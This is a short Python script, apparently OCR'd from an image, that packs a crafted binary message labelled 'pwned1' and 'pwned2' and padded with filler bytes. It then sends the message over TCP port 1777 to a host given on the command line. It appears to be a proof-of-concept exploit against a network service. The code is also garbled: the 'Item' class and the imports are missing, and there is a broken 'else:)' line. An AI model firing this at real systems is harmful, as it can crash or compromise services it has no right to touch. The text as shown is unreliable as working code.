 ```python

# Create a header structure
class HP:
    def __init__(self, hdr, payload):
        self.hdr = hdr
        self.payload = payload
        self.pad = b'\x00' * (16 - (len(self.hdr) + len(self.payload)) % 16)

    def pack(self):
        return b''.join([item.pack() for item in self.hdr]) + \
               b''.join([item.pack() for item in self.payload]) + self.pad

# Create a preamble structure
class Preamble:
    def __init__(self, hp):
        self.msg_size = len(hp.pack()) + 16
        self.hdr_size = sum([len(item.pack()) for item in hp.hdr])
        self.payload_size = sum([len(item.pack()) for item in hp.payload])
        self.unk = 0  # Unknown value

    def pack(self):
        return struct.pack('>IIII', self.msg_size, self.hdr_size, self.payload_size, self.unk)

# Create a message structure
class Msg:
    def __init__(self, hp):
        self.pre = Preamble(hp)
        self.hdrpay = hp

    def pack(self):
        return self.pre.pack() + self.hdrpay.pack()

buf = b'41' * 0x10
buf2 = b'42' * 0x10

# Create message payload
hdr = [Item(3, "pwned1", buf)]
payload = [Item(3, "pwned2", buf2)] # dummy payload, probabaly not necessary
hp_instance = HP(hdr, payload)
msg_instance = Msg(hp_instance)
print(msg_instance.pack())

# Default port
port = 1777

# check for target host argument
if len(sys.argv) > 1:
    host = sys.argv[1]
else:)
    sys.exit()

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((host, port))
    s.sendall(msg_instance.pack())
    print("Message sent!")
    s.close()
```
